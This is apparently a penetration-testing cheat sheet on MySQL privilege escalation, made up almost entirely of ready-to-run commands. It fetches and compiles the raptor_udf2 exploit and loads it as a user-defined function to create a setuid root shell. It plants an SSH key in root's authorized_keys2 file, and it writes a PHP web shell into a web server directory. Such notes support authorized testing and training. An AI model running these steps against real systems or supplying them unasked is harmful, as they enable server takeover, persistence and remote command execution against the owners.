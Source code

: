 ```yaml
---
title: "Mysql Privilege Escalation"
date: 2024-6-27
tags: ["mysql", "database", "RCE", "php", "UDF", "exploit", "pe"]
---
```


---
### Abuse #1: User Defined Function (UDF)

<div>

```bash
# Get the raptor_udf2.c
wget https://www.exploit-db.com/raw/1518 -O raptor_udf2.c
```

```bash
# Compile the source script
gcc -g -c raptor_udf2.c
```

```bash
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

```bash
# Copy to target folder
cp raptor_udf2.so /dev/shm/raptor_udf2.so
```

```bash
# Connect to database as root
mysql -u root -p<PASSWORD> mysql
```

```bash
# UDF
create table foo(line blob);
```

```bash
insert into foo values(load_file('/dev/shm/raptor_udf2.so'));
```

```bash
# Get plug-in directory
show variables like '%plugin%';
```

```bash
+-----------------+---------------------------------------------+
| Variable_name   | Value                                       |
+-----------------+---------------------------------------------+
| plugin_dir      | /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
| plugin_maturity | gamma                                       |
+-----------------+---------------------------------------------+
```

```bash
# Copy the plugin_dir value
select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so'; 
```

```bash
create function do_system returns integer soname 'raptor_udf2.so';
```

```bash
# RCE
select do_system('cp /bin/bash /tmp/shell; chmod 4777 /tmp/shell');
```

</div>

<br>

---

### Abuse #2: Add ssh public key to root

<div>

```bash
# Connect to database as root
mysql -u root -p<PASSWORD> mysql
```

```bash
# Check privilege
select current_user();
```

```bash
show grants for root@localhost;
```

```bash
# If mysql file write is not able to append or overwrite authorized_keys
select "ssh-ed25519 AAAAC4NzaC1lZDI1NTE8AAAAINAhYR5O6zwRnV147lX8FuuMLs7o+K5/WfaoYVa8SmbR user@computer" into outfile "/root/.ssh/authorized_keys2";
```

</div>

<br>

---

### Abuse #3: Create php File from Database to RCE

<div>

```mysql
create table test(stuff text);
```

```bash
insert into test values('<?php system($_REQUEST["cmd"]); ?>');
```

```bash
select * from test into dumpfile 'C:\\xampp\\htdocs\\cmd.php';
```

</div>

<br>